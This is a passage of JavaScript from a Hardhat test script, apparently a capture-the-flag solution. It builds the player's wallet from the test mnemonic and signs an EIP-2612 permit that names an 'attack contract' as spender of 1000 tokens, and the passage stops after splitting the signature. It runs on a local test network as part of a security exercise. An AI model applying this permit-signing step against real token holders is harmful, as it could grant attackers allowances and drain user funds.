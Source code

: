     // Attack contract address we obtained previously
    let attackAddress = "0x8464135c8F25Da09e49BC8782676a84730C318bC"
    let spender = attackAddress

    // Hardhat requires a Wallet to obtain the signed
    // transaction data, so make a Wallet for the player
    const accounts = config.networks.hardhat.accounts;
    const index = 1; // wallet of player
    const playerWallet = ethers.Wallet.fromMnemonic(accounts.mnemonic, accounts.path + `/${index}`);

    expect(playerWallet.address).eq(player.address)

    const chainId = (await ethers.provider.getNetwork()).chainId
    const nonce = await token.nonces(playerWallet.address)
    const name = await token.name()

    // Number of tokens to be sent
    const value = 1000n * 10n**18n
    
    // Unix timestamp for deadline
    const deadline = (await ethers.provider.getBlock('latest')).timestamp + 3600

    // Define Signature
    const domain = {
        name: name,
        version: "1",
        verifyingContract: token.address,
        chainId: chainId,
    }

    // Define types
    const types = {
        Permit: [
            {name: "owner", type: "address"},
            {name: "spender", type: "address"},
            {name: "value", type: "uint256"},
            {name: "nonce", type: "uint256"},
            {name: "deadline", type: "uint256"},
        ]
    }

    // Define transaction
    const values = {
        owner: playerWallet.address,
        spender: spender,
        value: value,
        nonce: nonce,
        deadline: deadline,
    }

    // Sign data
    const signature = await playerWallet._signTypedData(domain, types, values);

    // Split signature
    const sig = ethers.utils.splitSignature(signature);
